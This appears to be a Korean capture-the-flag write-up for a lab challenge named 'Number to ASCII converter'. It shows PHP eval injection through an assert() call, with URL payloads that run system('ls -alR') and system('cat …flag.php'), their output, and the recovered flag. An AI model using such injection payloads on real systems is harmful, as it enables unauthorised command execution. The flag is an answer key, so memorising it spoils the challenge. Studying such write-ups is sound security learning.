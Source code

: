# [hackburger] Number to ASCII converter - Writeup

## Eval Injection

`number` 파라미터를 `assert()` 함수에 넣고 실행하므로, Eval Injection이 가능하다.

[http://burger.laboratorium.ee:8001/?number=system%28%27ls%20-alR%27%29%3B](http://burger.laboratorium.ee:8001/?number=system%28%27ls%20-alR%27%29%3B)
```
.:
total 16
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
-rwxr-xr-x 1 root root  495 Jul 24 07:09 index.php
drwxr-xr-x 1 root root 4096 Aug 29 11:55 where

./where:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 is

./where/is:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 the

./where/is/the:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 flag

./where/is/the/flag:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 i

./where/is/the/flag/i:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 am

./where/is/the/flag/i/am:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 looking

./where/is/the/flag/i/am/looking:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
drwxr-xr-x 1 root root 4096 Aug 29 11:55 for

./where/is/the/flag/i/am/looking/for:
total 12
drwxr-xr-x 1 root root 4096 Aug 29 11:55 .
drwxr-xr-x 1 root root 4096 Aug 29 11:55 ..
-rwxr-xr-x 1 root root   82 Jul 24 07:14 flag.php
Ascii character for system('ls -alR'); is
```

[http://burger.laboratorium.ee:8001/?number=system%28%27cat%20where/is/the/flag/i/am/looking/for/flag.php%27%29%3B](http://burger.laboratorium.ee:8001/?number=system%28%27cat%20where/is/the/flag/i/am/looking/for/flag.php%27%29%3B)
```
<?php

Congratulations!

The flag is adb92727cb7edc1802eb4616d23aef3ffaa928a4

?>
Ascii character for system('cat where/is/the/flag/i/am/looking/for/flag.php'); is
```

___

## Answer

flag: `adb92727cb7edc1802eb4616d23aef3ffaa928a4`
